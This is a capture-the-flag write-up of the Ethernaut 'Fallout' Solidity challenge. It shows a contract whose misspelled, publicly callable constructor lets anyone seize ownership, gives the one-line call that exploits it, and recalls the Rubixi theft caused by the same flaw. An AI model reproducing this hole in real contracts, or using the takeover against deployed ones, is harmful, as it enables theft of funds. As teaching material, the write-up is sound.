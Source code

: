## Ethernaut Level 02 - Fallout - Write-Up
<!--Authors: OofedUp-->

Difficulty: 2/10

![image](https://i.imgur.com/qXzF4vf.png)

## Source
```javascript
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract Fallout is Ownable {

  mapping (address => uint) allocations;

  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  function allocate() public payable {
    allocations[msg.sender] += msg.value;
  }

  function sendAllocation(address allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(this.balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

At first, the contract seems secure, but if you take a closer look you will find something really interesting here:

```javascript
/* constructor */
 function Fal1out() public payable {
   owner = msg.sender;
   allocations[owner] = msg.value;
 }
```

The *constructor* function was defined with a typo (**1** instead of **l**), so the contract's owner was not set on deployment, but more importantly, the function is public and callable. We can use it to become the owner:

```javascript
contract.Fal1out()
```

We can then submit it.

![image](https://i.imgur.com/G5KJZ3n.png)

## Note

That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?
Well... Not quite.
The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:
```javascript
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
```
This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.
